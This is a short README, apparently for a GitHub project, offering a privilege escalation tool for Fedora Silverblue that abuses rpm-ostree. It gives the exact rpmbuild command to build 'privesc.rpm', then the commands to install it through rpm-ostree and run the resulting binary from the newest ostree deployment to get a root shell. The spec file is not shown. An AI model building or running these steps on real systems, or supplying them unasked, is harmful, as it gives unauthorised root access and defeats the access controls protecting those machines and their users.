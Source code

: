 A Fedora Silverblue privilege escalation tool that uses `rpm-ostree`.

## Building

**Requirements:** `rpmbuild` (available via `dnf install rpmdevtools`)

```bash
rpmbuild --bb --define "_rpmdir $(pwd)" --define "_rpmfilename privesc.rpm" privesc.spec
```
This generates `privesc.rpm` in the current directory.

## Usage

```bash
rpm-ostree install privesc.rpm
# Enter root shell
"$(ls -td /ostree/deploy/fedora/deploy/*/ | head -1)"/usr/bin/privesc
```
